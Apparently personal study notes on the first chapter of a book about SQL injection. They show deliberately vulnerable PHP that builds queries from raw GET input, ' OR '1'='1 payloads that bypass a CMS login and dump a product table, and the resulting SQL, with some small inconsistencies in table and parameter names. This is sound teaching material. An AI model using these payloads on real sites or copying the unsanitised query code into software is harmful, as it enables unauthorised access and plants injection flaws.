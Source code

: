 # NOTES FROM THE BOOK BY jclarke

## Ch1
http://www.victim.com/products.php?val=100

```php
$conn = mysql_connect(“localhost”,“username”,“password”);

// dynamically build the sql statement with the input
$query = “SELECT ∗ FROM Products WHERE Price < ‘$_GET[“val”]’ ”.
  “ORDER BY ProductDescription”;

// execute the query against the database
$result = mysql_query($query);

// iterate through the record set
while($row = mysql_fetch_array($result, MYSQL_ASSOC))
{

// display the results to the browser
echo “Description : {$row[‘ProductDescription’]} <br>”.
  “Product ID : {$row[‘ProductID’]} <br>”.
  “Price : {$row[‘Price’]} <br><br>”;

}
```
The same but simplified; in this case, **100.00** would be the value from GET
```sql
SELECT ∗
FROM Products
WHERE Price <‘100.00’
ORDER BY ProductDescription;
```

Injecting the val parameter
```
http://www.victim.com/products.php?val=100' OR '1'='1
```

Built query
```sql
SELECT ∗
FROM ProductsTbl
WHERE Price < ‘100.00’ OR ‘1’ = ‘1’
ORDER BY ProductDescription;
```

Suppose the application has a content manangement system that can be accessed
via the following (unrealistic) url.
```
http://www.victim.com/cms/login.php?username=foo&password=bar
```

The code for login.php would look like this
```php
// connect to the database
$conn = mysql_connect(“localhost”,“username”,“password”);

// dynamically build the sql statement with the input
$query = “SELECT userid FROM CMSUsers WHERE user = ‘$_GET[“user”]’ ”.
  “AND password = ‘$_GET[“password”]’”;

// execute the query against the database
$result = mysql_query($query);

// check to see how many rows were returned from the database
$rowcount = mysql_num_rows($result);

// if a row is returned then the credentials must be valid, so
// forward the user to the admin pages
if ($rowcount ! = 0){header(“Location: admin.php”);}

// if a row is not returned then the credentials must be invalid
else {die(‘Incorrect username or password, please try again.’)}
```

The sql statement built is
```sql
SELECT userid
FROM CMSUsers
WHERE user = 'foo' AND password = 'bar';
```

Problem: dev thinks num of records returned will always be 0 or 1. IF we are
able to inject this and alter the logic, then the statement will select all of the
userids.

Injected password parameter

```http://www.victim.com/cms/login.php?username=foo&password=bar' OR '1'='1```

And the resulting sql statment

```sql
SELECT userid
FROM CMSUsers
WHERE user = ‘foo’ AND password = ‘password’ OR ‘1’ = ‘1’;
```

Logically simplified
```sql
SELECT userid
FROM CMSUsers
WHERE $true
```
